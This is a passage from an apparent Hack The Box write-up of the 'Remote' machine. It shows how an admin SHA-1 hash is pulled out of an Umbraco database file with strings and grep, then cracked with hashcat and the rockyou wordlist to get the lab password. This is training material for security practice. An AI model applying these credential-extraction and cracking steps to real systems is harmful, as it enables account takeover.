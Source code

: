 Apparently, there are two users at least: `admin` and `ssmith`. Let's investigate more:

```bash
$ root@kali:/mnt/tmp/App_Data# strings Umbraco.sdf | grep "admin@htb.local"                                                                                                                   
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50                                                
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f                                                
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
```

BINGO! We got a SHA-1 hash: `b8be16afba8c314ad33d812f22a04991b90e2aaa`.

Let's try to crack it using `hashcat`:

```bash
$ cat > hash.txt
b8be16afba8c314ad33d812f22a04991b90e2aaa
^C
$ hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt
...
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
...
```

Okay so `admin@htb.local`'s password should be `baconandcheese`.

### Port 80 (Microsoft HTTPAPI httpd 2.0)

![Desktop View](/assets/img/htb/machines/windows/easy/remote/80.png)

